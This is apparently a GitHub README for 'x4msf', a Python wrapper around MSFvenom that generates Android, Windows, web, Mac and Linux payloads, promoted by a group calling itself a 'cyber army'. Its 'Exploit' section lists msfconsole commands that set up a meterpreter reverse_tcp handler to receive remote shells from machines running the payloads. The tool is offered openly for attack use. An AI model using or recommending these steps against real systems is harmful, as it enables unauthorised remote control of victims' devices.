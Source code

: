 # x4msf
A MSFvenom Payload creator tools.
# Features :
* Android payload
* Windows Payload
* Web Payload
* Mac Payload
* Linux Payload Generate
# language :
* python 3.8.3

# Installation :
```bash
apt update

apt upgrade

apt install git

apt install python

git clone https://www.github.com/teamx4ck/x4msf
```
# Run :
```bash
$ python x4msf.py
```

# Exploit
	```
	>> msfconsole
	msf> use exploit/multi/handler
	msf> (os)/meterpreter/reverse_tcp
	msf> set LHOST > Your LHOST
	msf> set LPORT > Your LPORT
	msf> run
```
# author :
* 1. Rakib Hossain

# FB Group
* Name : x4ck cyber army
* Link : https://m.facebook.com/groups/x4ckcyberarmy/

# Stay With Team X4CK
